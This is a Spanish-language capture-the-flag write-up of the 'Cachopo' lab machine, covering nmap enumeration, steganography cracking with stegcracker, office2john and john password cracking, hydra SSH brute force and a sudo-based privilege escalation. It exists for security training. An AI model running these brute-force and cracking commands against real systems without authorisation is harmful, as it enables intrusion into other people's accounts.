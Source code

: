 # CTF Write-up: Cachopo – The Hackers Labs

## Introducción

En este reto CTF, se trabajó sobre la máquina **Cachopo** del laboratorio de The Hackers Labs. Este desafío abarca múltiples técnicas ofensivas como:

- Enumeración de red.
- Esteganografía en archivos.
- Ataques de fuerza bruta.
- Escalada de privilegios.

A través de una correcta identificación de configuraciones erróneas y análisis detallado, se logró comprometer por completo el sistema objetivo. Este write-up documenta cada paso seguido para lograr el acceso a nivel **root**.

---

## 1. Enumeración de Red

### Escaneo de dispositivos en red

```bash
arp-scan -I eth0 --localnet
```

### Descubrimiento de hosts activos

```bash
nmap -sP 10.0.2.0/24
```

### Escaneo detallado de puertos y servicios

```bash
nmap -sV -sC -p- 10.0.2.20
```

**Resultado**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3
80/tcp open  http    Apache httpd 2.4.61
```

- **Puerto 22**: SSH.
- **Puerto 80**: HTTP (con redirección a `cachopo.thl`).

---

## 2. Análisis del Servicio Web

### Acceso inicial

- El sitio web redireccionaba a `http://cachopo.thl/`.
- Se añadió `10.0.2.20 cachopo.thl` a `/etc/hosts`.

### Descarga de archivo sospechoso

- Se descargó una imagen JPG desde el sitio.
- La imagen estaba protegida y contenía información oculta.

---

## 3. Esteganografía

###  Uso de StegCracker

```bash
stegcracker imagen.jpg /usr/share/wordlists/rockyou.txt
```

**Contraseña obtenida**: `doggies`

- Se extrajo un archivo oculto desde la imagen.
- Dentro, se encontró un archivo llamado `Cocineros`.

---

## 4. Análisis del Archivo “Cocineros”

### Verificación de tipo de archivo

```bash
file Cocineros
```

→ Se detectó como archivo `.docx`.

### Extracción de hash con `office2john`

```bash
office2john Cocineros > hash.txt
```

### Ataque de fuerza bruta

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Contraseña recuperada**: `horse1`

---

## 5. Análisis del Documento

- Al abrir el documento (`Cocineros.docx`) con LibreOffice, se encontraron **tres nombres**.

Estos se usaron como posibles usuarios para ataque SSH:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.20 -t 4
```

---

## 6. Acceso a SSH

Una vez hallado el usuario y contraseña correctos, se accedió al sistema vía SSH:

```bash
ssh usuario@10.0.2.20
```

---

## 7. Escalada de Privilegios

### Ver comandos con `sudo`:

```bash
sudo -l
```

- Se identificó un **binario vulnerable** con permisos sudo.

### Ejecución del binario vulnerable

- Al ejecutarlo, se logró acceso a **root** gracias a una mala configuración de permisos.

---

## 🏁 8. Conclusión

Este CTF nos permitió aplicar varias técnicas clave de pentesting:

- Enumeración de red y servicios.
- Esteganografía aplicada.
- Ataques de fuerza bruta a servicios.
- Escalada de privilegios basada en binarios vulnerables.

📢 ¡Acceso root conseguido!

---

## 📷 Evidencia




